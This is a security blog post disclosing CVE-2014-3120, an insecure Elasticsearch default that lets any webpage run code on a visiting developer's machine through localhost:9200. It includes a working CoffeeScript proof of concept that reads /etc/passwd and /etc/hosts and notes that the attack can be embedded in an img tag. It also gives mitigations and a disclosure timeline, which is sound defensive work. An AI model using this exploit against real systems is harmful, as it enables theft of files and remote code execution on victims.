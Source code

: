 ```yaml
---
layout: post
title: Insecure default in Elasticsearch enables remote code execution

---
```


Elasticsearch has a flaw in its default configuration which makes it possible for any webpage to execute arbitrary code on visitors with Elasticsearch installed. If you're running Elasticsearch in development please read [the instructions](#how_to_secure_against_this_vulnerability) on how to secure your machine. Elasticsearch version 1.2 (which is unreleased as of writing) is not vulnerable to remote code execution, but still has some security concerns.

## The problem(s)
There are a couple of problems which enable the proof of concept I'm going to present:

* Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
* The API for Elasticsearch is accessible over <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html" target="_blank">HTTP</a> and provides no CSRF protection whatsoever.
* It contains a <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html" target="_blank">feature</a> which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function while searching through documents. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
* Up to version 1.2 <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_enabling_dynamic_scripting" target="_blank">dynamic scripting</a> (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.

There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch, you probably have it running on your machine. The default port is `9200` and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.

## PoC
The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.

{% highlight coffeescript %}
read_file = (filename) ->
  """
  import java.io.File;
  import java.util.Scanner;
  new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
  """

# This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
$ ->
  payload = {
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {}
  }

  for filename in ["/etc/hosts", "/etc/passwd"]
    payload["script_fields"][filename] = {"script": read_file(filename)}

  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
    console.log(data)
    for hit in data["hits"]["hits"]
      for filename, contents of hit["fields"]
        document.write("<h2>#{filename}</h2>")
        for content in contents
          document.write("<pre>" + content + "</pre>")
        document.write("<hr>")
{% endhighlight %}

You can verify whether you're vulnerable by trying out the above PoC <a href="/blog/elasticsearch-rce/poc.html" target="_blank">here</a>.

There are many ways to exploit this, you could link the victim to the page or embed it as an Iframe. You can even exploit this by crafting a URL and using it as the `src` of an `<img>`, as the only thing that needs to happen is a single GET request. No user interaction required!

Because this is so easily exploitable you can mass-pwn developers with relatively little work.

## How to secure against this vulnerability

Add the following line to your `elasticsearch.yml` to disable dynamic scripting and prevent remote code execution:

{% highlight yaml %}
script.disable_dynamic: true
{% endhighlight %}

You should also make sure that your local Elasticsearch instance is only binding on `localhost`, as someone could exploit you over LAN without making you visit a webpage if you don't. The Homebrew Elasticsearch formula does this automatically. This still means you're vulnerable to the CSRF exploit though!

If you want to be as secure as possible, you should run Elasticsearch inside a virtual machine, to make sure it has no access to the hosting machine at all.

## Additional targets

Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included. This is impossible to fix by the Elasticsearch developers without adding authentication or CSRF protection.

If an attacker can figure out the internal address of your production Elasticsearch instance, you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to your Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.

[Hackernews](https://news.ycombinator.com/item?id=7732540)

[Reddit](http://www.reddit.com/r/netsec/comments/25cuun/insecure_default_in_elasticsearch_enables_remote/)

### Notes

* I have reserved [CVE-2014-3120](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) for this issue.
* This exploit was tested against Elasticsearch version 1.1.1 on MacOSX installed through Homebrew. No configuration changes were made.
* I notified Elasticsearch through their [security report instructions](http://www.elasticsearch.org/community/security/) on the 26th of April 2014. They replied they were aware of it, but didn't intend to do a security release and instead [disable](https://github.com/elasticsearch/elasticsearch/issues/5853) dynamic scripting by default in version 1.2.
* This security issue has been indepently discovered and [blogged about](https://www.found.no/foundation/elasticsearch-security/#staying-safe-while-developing-with-elasticsearch) on December 9th 2013.

*You should follow me on Twitter [here](https://twitter.com/bvdbijl)*
